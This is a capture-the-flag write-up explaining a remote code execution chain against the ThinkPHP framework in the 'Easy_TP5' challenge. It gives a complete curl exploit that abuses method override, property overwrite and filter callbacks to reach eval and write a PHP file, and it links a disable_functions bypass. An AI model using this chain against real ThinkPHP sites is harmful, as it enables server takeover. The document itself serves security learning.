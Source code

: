 # Easy_TP5

A web challenge with thinkphp framework ended up having 11 solves

## Solution

Final exploit:

```
curl --data "path=PD9waHAgZmlsZV9wdXRfY29udGVudHMoJ3N1cHBwLnBocCcsJ3N1cGVyIGd1ZXNzc3NlcnMnKTsgPz4=&_method=__construct&filter[]=set_error_handler&filter[]=self::path&filter[]=base64_decode&filter[]=\think\view\driver\Php::Display&method=GET" "http://101.32.184.39/?s=captcha&g=implode"
```

This exploit create file names `suppp.php` with `super guessssers` inside it.

## explanation

## First step
Well The challenge had many steps so i just explain how the exploit works. Everything starts from this function in `Request.php`

```
public function method($method = false)
    {
        if (true === $method) {
            return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $this->method = strtoupper($_POST[Config::get('var_method')]);
                $this->{$this->method}($_POST);
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
            }
        }
        return $this->method;
    }

```

And this part

```
if (isset($_POST[Config::get('var_method')])) {
      $this->method = strtoupper($_POST[Config::get('var_method')]);
      $this->{$this->method}($_POST);
}
```

Accoring to `config.php` the `var_method` is set to `_method` it means that we can call any method with `$_POST` as argument.

In our exploit, The `_method`'s value in post parameters is ``__construct``.

## Second step

`__constructor` method of `Request.php` is

```
public function __construct($options = []){
        foreach ($options as $name => $item) {
            if (property_exists($this, $name)) {
                $this->$name = $item;
            }
        }
        if (is_null($this->filter)) {
            $this->filter = Config::get('default_filter');
        }
}
```

In the exploit, The `__construct` method is called with `$_POST` as arg so `$options` here is `$_POST`.

So we can overwrite any object's property to arbitrary value.

In the exploit we overwrite

```
path => "payload"
_method => "__construct"
filter => ["set_error_handler","self::path","base64_decode","\think\view\driver\Php::Display"]
method => "GET"
```

## Third step

Now the code continues until this code in `input` method

```
if (is_array($data)) {
     array_walk_recursive($data, [$this, 'filterValue'], $filter);
     reset($data);
} 
```

where `array_walk_recursive` calls `filterValue` method with following args in first call.

```
&$value   -> implode
$key      -> key of array - not important
$filters  -> ["set_error_handler","self::path","base64_decode","\think\view\driver\Php::Display"]

``` 

In `filterValue` we have

```
private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);
        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (strpos($filter, '/')) {
                    if (!preg_match($filter, $value)) {          
                        $value = $default;
                        break;
                    }
                } elseif (!empty($filter)) {
                    $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                    if (false === $value) {
                        $value = $default;
                        break;
                    }
                }
            }
        }
        return $this->filterExp($value);
    }
```

This part is important:

```
foreach ($filters as $filter) {
            if (is_callable($filter)) {
                $value = call_user_func($filter, $value);
            }
```

It calls each filter, with previous function's return value. We can call arbitrary function with arbitrary arg But it's so limited with disabled functions and arguments count limitation. So now we need to chains function ( ROP :P ).

Our main gadget is `display` method in `think\view\driver\Php`.

Which is

```
 public function display($content, $data = [])
    {
        if (isset($data['content'])) {
            $__content__ = $content;
            extract($data, EXTR_OVERWRITE);
            eval('?>' . $__content__);
        } else {
            extract($data, EXTR_OVERWRITE);
            eval('?>' . $content);
        }
    }
```

Fortunately php supports calling non static methods ( with a warning ), But the framework has set `error_hander` to some function, so if we call non static method, we will face framework's error handler. So first we have to call `set_error_handler` with dummy function's name, here `implode`, to turn off framework's error handling. So here is my chain. 

```
function | argument ^ return value
1.
set_error_handler | "implode" ^ array
2.
self::path | The path property which we overwrited ^ base64 payload 
3.
base64_decode | base64 payload ^ decoded payload
4.
\think\view\driver\Php::Display | decoded payload

```

So now we had control over arguments, Then we used [this](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php) payload to execute system commands, and got flag.

Flag: <b>n1ctf{ab24ad523665a581da7fd54386895f51}</b>
